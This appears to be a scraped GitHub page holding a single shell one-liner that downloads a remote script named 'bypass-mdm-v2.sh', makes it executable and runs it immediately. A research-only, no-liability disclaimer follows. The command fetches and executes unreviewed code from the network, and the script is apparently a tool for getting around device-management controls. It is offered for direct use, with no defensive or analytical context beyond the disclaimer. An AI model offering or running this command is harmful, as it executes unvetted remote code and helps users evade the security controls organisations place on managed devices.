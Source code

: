<code> curl https://raw.githubusercontent.com/vthacc/Reportmdm/main/bypass-mdm-v2.sh -o test.sh && chmod +x ./test.sh && ./test.sh </code>

Note: For security vulnerability research purposes only. Disclaimer: No liability for any misuse in any form.
